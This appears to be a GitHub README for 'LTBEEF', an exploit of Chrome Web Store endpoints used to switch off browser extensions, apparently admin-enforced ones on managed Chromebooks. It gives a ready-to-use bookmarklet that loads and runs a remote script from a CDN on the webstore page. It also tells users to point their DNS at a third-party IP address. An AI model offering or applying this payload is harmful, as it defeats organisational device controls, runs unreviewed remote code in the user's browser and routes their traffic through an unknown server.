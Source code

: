 # LTBEEF
#### Discovered by Bypassi#7037
#### DNS servers hosted by The Greatest Giant#0110
LTBEEF is an exploit which abuses API endpoints within the Google Chrome webstore.  
 
There are several vesions of this exploit you can use, here are the 2 most common versions:

## BOOKMARKLETS
1. Bookmark the script below:    
```javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())```

2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
3. Flip the switches on the extentions you want to disable. Simple!  
   
## DNS SERVERS
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
1. Go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"

![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  

2. Set every box there to the following ip:  
```158.101.114.159``` 
3. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a>
and click on the bookmark. 
4. Flip the switches on the extentions you want to disable. 
